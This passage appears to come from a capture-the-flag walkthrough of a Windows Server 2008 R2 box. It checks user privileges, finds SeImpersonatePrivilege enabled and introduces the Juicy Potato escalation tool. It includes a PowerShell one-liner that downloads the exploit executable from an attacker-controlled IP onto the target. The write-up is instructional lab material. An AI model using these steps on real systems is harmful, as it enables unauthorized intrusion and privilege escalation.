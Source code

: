 It’s running Microsoft Server 2008 R2 and does not have any hot fixes installed, so it’s likely vulnerable to a bunch of kernel exploits. However, before we go down this route, let’s first check the system privileges that are enabled for this user.

![](../images/max/1023/1*GCpu5p5ov5sHO44q8cgzAw.png)

_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.

![](../images/max/971/1*iiNs88XZklfmeYGSZIGwxQ.png)

It requires 3 mandatory arguments.
